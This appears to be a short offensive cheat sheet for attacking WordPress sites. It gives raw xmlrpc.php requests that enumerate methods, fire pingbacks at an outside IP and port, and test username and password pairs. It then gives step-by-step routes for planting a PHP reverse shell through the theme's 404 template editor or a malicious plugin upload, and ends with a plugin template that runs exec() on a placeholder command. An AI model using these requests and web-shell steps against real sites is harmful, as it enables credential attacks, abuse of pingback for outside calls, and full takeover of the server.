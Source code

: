 ### list possible methods using rpc api
```
POST /xmlrpc.php HTTP/1.1
Host: <domain>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: XXX

<methodCall>  
<methodName>system.listMethods</methodName>  
<params></params>  
</methodCall>  
```

### example - send a ping
```
POST /xmlrpc.php HTTP/1.1
Host: <domain>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: XXX

<methodCall>  
<methodName>pingback.ping</methodName>  
<params><param>  
<value><string>http://XXX.XXX.XXX.XXX:XX</string></value>  
</param><param><value><string>https://<domain>/wordpres?p=1</string>  
</value></param></params>  
</methodCall>  
```

### methods for enumeration
```
wp.getUserBlogs
wp.getCategories
metaWeblog.getUsersBlogs

<methodCall>  
<methodName>wp.getUsersBlogs</methodName>  
<params>  
<param><value>username</value></param>  
<param><value>password</value></param>  
</params>  
</methodCall>  
```


### upload reverse shell with admin access - using custom 404 page
```
Appearance > Editor/Theme Editor > Theme Files > 404/404 Template > Selected file content > <phpReverseShell> > Update File
```

### upload reverse shell with admin access - using malicious plugin
```
Plugins > Add New > Upload Plugin > Browse > Choose PHP reverse shell (rev.zip) > Install > Activate Plugin
```

### template of PHP reverse shell
```
<?php
/**
* Plugin Name: Wordpress Reverse Shell
* Author: Haxxor
*/

exec("<command>")  
?>  
```

